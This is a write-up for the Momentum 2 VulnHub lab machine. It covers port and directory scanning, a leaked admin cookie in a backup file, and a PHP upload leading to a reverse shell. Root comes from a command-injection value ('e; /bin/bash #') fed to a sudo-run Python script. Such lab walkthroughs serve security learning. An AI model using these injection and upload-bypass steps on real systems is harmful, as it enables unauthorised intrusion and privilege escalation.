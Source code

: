 # [Momentum 2](https://www.vulnhub.com/entry/momentum-2,702/)

First of all, `nmap`

```
# Nmap 7.92 scan initiated Tue Sep  7 14:00:09 2021 as: nmap -vvv -p 22,80 -sCV -oA init 192.168.1.15
Nmap scan report for 192.168.1.15
Host is up, received syn-ack (0.00022s latency).
Scanned at 2021-09-07 14:00:16 +07 for 6s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 02:32:8e:5b:27:a8:ea:f2:fe:11:db:2f:57:f4:11:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvLBfxFldO4WbIevNlJ0QOUhVEAZSMh90tM0zOzgCyI78XrXIbLylHrFIWO2LLq58sOiBff8isSFOqMbi78E/vfYEfxJWFVf5rHF81H5bvMC/CyHwKp7rVwuAZmE8ptSY7O3YQame8tRVzBV5S0Q3MiiRiAAoKVD+IYRLjPJS86Vw5KBcjyRgV74uhq67aUF4lLfzN1bnFXLXcj0oEaINBvGyoL7WHHbeBUN79frbst2B2dQF11y2MX+1N4eY7kyYs8yfpdlpbg3cphSAdijlEhR3k9VfBniY4j/uDVDBFGVR222Ed4C9B/uO39Uo5uWL14+CniivDjFMiBxcQ2Ipn
|   256 74:35:c8:fb:96:c1:9f:a0:dc:73:6c:cd:83:52:bf:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPLDfFr1akIWI3PRtJ8vCRvpVzphugymeINxdNUn9oNKsOa8tscCJATLz23ZTHDcD5X7pGp3JrdtLMYu6jt6WxQ=
|   256 fc:4a:70:fb:b9:7d:32:89:35:0a:45:3d:d9:8b:c5:95 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAwDf+5b2dd60HSltfSqfwn1oSHmFxk++3wsFOPe4L/N
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum 2 | Index
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  7 14:00:22 2021 -- 1 IP address (1 host up) scanned in 12.99 seconds
```

Looking at the web page on port 80, there's nothing special. We then run `gobuster`.

```
$ gobuster dir -u "http://192.168.1.15/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d -x php -r

/img                  (Status: 200) [Size: 1305]
/ajax.php.bak         (Status: 200) [Size: 357]
/css                  (Status: 200) [Size: 931]
/ajax.php             (Status: 200) [Size: 0]
/manual               (Status: 200) [Size: 626]
/js                   (Status: 200) [Size: 928]
/owls                 (Status: 200) [Size: 737]
```

We have `ajax.php` and its backup `ajax.php.bak` which we can download. `/owls` has directory listing but with nothing. Inside `/js`, we have a single file `main.js`.

```js
function uploadFile() {

    var files = document.getElementById("file").files;

    if(files.length > 0 ){

       var formData = new FormData();
       formData.append("file", files[0]);

       var xhttp = new XMLHttpRequest();

       // Set POST method and ajax file path
       xhttp.open("POST", "ajax.php", true);

       // call on request changes state
       xhttp.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {

            var response = this.responseText;
            if(response == 1){
               alert("Upload successfully.");
            }else{
               alert("File not uploaded.");
            }
          }
       };

       // Send request with data
       xhttp.send(formData);

    }else{
       alert("Please select a file");
    }

 }
```

We see here that we can upload files by making POST requests to `/ajax.php`. Looking at `ajax.php.bak` ...

```php
    //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1
```

We see that we can upload PHP files if we have:

- the `admin` cookie set correctly to a known string with 1 unknown uppercase character at the end
- the parameter `secure` set to `val1d` in our POST request

First, we try to upload a `.txt` file with an RCE for a sanity check.

```sh
V curl -X POST "http://192.168.1.15/ajax.php" -F "file=@/tmp/test.txt"
1
```

I put the request through Burp Intruder and fuzz

![](intruder.png)

We find that we're able to upload with 'R' as the unknown capital letter, and our PHP file is uploaded, and we can get a reverse shell on the machine.

Looking at `/home`, we have 2 directories: "athena" and "team-tasks". Inside athena's directory is a password hint.

> password : myvulnerableapp[Asterisk]

With this, we're able to `su athena` with the password `myvulnerableapp*`.

As athena, we can run a python script as root

```sh
athena@momentum2:~$ sudo -l
Matching Defaults entries for athena on momentum2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User athena may run the following commands on momentum2:
    (root) NOPASSWD: /usr/bin/python3 /home/team-tasks/cookie-gen.py
```

Looking at the script at hand

```python
cat cookie-gen.py
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

We see that we can input `seed` which is formatted into a string that gets executed. We can exploit this with command injection by running the script with `sudo` and supplying `e; /bin/bash #` for the seed. With this, we should have a root shell.
`
